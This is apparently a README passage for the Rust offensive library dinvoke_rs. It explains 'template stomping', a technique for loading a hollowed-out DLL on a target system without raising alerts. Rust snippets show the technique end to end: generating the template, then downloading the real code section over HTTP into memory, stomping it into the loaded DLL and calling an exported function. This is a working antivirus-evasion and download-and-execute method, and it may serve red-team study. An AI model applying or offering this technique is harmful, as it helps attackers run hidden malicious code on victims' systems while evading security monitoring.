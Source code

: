 ## Template stomping
Template stomping is a derivative of the module stomping technique tailored specifically for DLLs. Right now this technique only allows to load a DLL into the current process, remote processes are not supported.

The main objective is to create a template from a DLL by replacing the content of the `.text` section with arbitrary data, allowing to write the template on disk without raising alerts. This template is crafted in a way that it can be loaded into the process by calling `LoadLibrary`. Then, the original `.text` section content can be downloaded directly to the process' memory and stomped on the template's corresponding memory region. This technique can be effectively executed using two main functions: `generate_template` and `template_stomping`.

The `generate_template` function is designed to create the template from the original DLL by extracting the `.text` section content  and replacing it with arbitrary data. This ensures that the template maintains its structure but contains no meaningful executable code, apart from the entry points and TLS callbacks, which are replaced with dummy but functional assembly instructions. The original `.text` section content is saved separately in `payload.bin`, and the final template file is saved in `template.dll`.

```rust
fn main ()
{
    let template = dinvoke_rs::overload::generate_template(r"C:\Path\To\payload.dll", r"C:\Path\To\Output\Directory\");
    match template
    {
        Ok(()) => { println!("Template successfully generated.");}
        Err(x) => { println!("Error ocurred: {x}");}
    }
}
```

Then the template can be saved on disk in the **target system** and can be loaded in the current process by calling `LoadLibrary`. Once the template has been loaded by the SO, the next step involves stomping the original executable content stored in `payload.bin` into the `.text` section of the template. This process is performed by the `template_stomping` function, which stomps the original executable content into the right memory region taking care of all the details involved in the process.

```rust

fn main ()
{  
    unsafe
    {
        let mut payload = http_download_payload(); // Download payload.bin content directly to memory
        let stomped_dll = dinvoke_rs::overload::template_stomping(r"C:\Path\To\template.dll", &mut payload).unwrap();
        println!("Stomped DLL base address: 0x{:x}", stomped_dll.1);

        let function_ptr = dinvoke_rs::dinvoke::get_function_address(stomped_dll.1, "SomeRandomFunction");
        let function: extern "system" fn() = std::mem::transmute(function_ptr);
        function();
    }
}
```
